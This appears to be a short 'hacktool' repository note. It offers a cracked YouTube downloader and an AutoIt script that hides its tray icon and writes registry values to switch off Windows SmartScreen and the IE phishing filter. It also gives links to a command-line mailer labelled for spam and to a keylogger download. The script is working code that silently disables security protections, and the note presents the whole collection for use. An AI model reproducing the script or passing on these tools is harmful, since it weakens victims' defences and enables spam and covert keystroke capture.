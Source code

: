 # hacktool

youtube vedio download with crack

ad35a233a3421934b9b7b7514c4fbface48ecc6b1eadb99422057dabbdb15cbb


#for disabling AutoItSetOption("TrayIconHide", 0x1)
AutoItSetOption("TrayAutoPause", 0x0)
AutoItSetOption("MouseCoordMode", 0x0)
Local $type = @OSArch
Local $ver = @OSVersion
Local $regpath, $pathfile, $user, $pass, $valid1, $valid4, $uac, $signal
If $type = "X86" Then
    $pathfile = "C:\Program Files"
    $regpath = "HKLM\Software"
Else
    $pathfile = "C:\Program Files (X86)"
    $regpath = "HKLM\Software\Wow6432Node"
EndIf
If $ver = "Win_10" Then
    RegWrite("HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\System", "EnableSmartScreen", "REG_DWORD", "0")
ElseIf $ver = "Win_7" Then
    RegWrite("HKEY_CURRENT_USER\Software\Microsoft\Internet Explorer\PhishingFilter", "EnableV9", "REG_DWORD", "0")
EndIf
Sleep(0x5dc)
Exit





sending email for spam on command line 
https://www.blat.net/

creating android app from website 1e339de718a5338f4b35ed853d87e6bc217ce60877173387b5e74104d2ab00a0

keylogger http://www.keylogger-gratuit.com/
http://www.keylogger-gratuit.com/telecharger/kg-setup.zip
